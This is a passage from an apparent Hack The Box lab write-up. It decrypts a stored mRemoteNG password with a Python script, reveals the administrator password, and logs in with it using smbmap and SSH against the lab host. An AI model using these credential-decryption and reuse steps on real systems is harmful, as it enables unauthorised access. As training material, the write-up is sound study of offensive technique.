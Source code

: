 ```sh
ectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" InheritRe
directSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConso
leSession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionS
trength="false" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout=
"false" InheritLoadBalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" Inhe
ritUserField="false" InheritExtApp="false" InheritVNCCompression="false" InheritVNCEncoding="false" InheritVNCAuthMode="
false" InheritVNCProxyType="false" InheritVNCProxyIP="false" InheritVNCProxyPort="false" InheritVNCProxyUsername="false"
 InheritVNCProxyPassword="false" InheritVNCColors="false" InheritVNCSmartSizeMode="false" InheritVNCViewOnly="false" Inh
eritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false" InheritRDGatewayUseConnectionCredentials="false" Inher
itRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />                          
</mrng:Connections> 
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/39.jpg)

```sh
aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
```

- mRemotNg decrypt
```
python3 mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/40.jpg)

```sh
Password: thXLHM96BeKL0ER2
```

#### Login with smbmap

```
smbmap -u administrator -p thXLHM96BeKL0ER2 -H 10.10.10.134
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/41.jpg)

#### ssh with that password also worked

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/42.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/43.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/44.jpg)
